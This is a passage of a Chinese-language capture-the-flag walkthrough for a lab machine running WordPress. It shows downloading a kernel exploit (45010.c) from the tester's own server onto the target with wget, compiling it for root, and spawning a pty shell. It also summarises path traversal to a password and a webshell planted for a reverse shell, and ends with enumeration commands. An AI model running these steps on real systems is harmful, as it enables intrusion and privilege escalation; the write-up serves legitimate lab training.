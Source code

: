 然后把文件传到靶机上

```
本地开启服务器
php -S 0:80
靶机
一般都在 /tmp目录下载（因为权限比较高）
wget http://192.168.52.137/45010.c
没用执行权限 chmod+x 45010.c
```

gcc 45010.c -o 45010-2先编译

然后./45010-2执行，提权成功

![image-20231007171719887](..\img\final\image-20231007171719887.png)

然后看下有没有 python ,dpkg -l,发现有

生成一个交互式的

```
python -c "import pty;pty.spawn('/bin/bash')"
```

最后去root目录拿下flag

## 总结

渗透耗时 4个小时

```
首先扫端口，22 80，然后扫描80端口的目录，发现了 index.php image.php
用dirb指定后缀  .txt  发现了 secret.php
然后fuzz获得参数file= file=location.txt  发现了 那个secret360
然后 image.php?secre=../../获得了密码
登陆wordpress，写入一句话木马反弹shell成功
通过内核提权
```

nice!!!

## 另一种提权的方法

```java 
sudo -l 看当前权限
ls -liah/liuh 看当前目录的权限
find / -name '*backup*' 2>/dev/null | sort | less

sudo echo -n 'ippsec' | md5sum   生成字符串的md5值
    -n去掉换行符
awk -F '' '{print $1}'  以空格作为分割，取第一个
sudo awk '{gsub(/ /,"\n");print}' CipherTypeRaw |sort | wc-l |uniq  所有的空格替换成换行  wc -l计算有多少行,uniq取唯一
    
od -A n -t x
dpkg -l | grep python
```
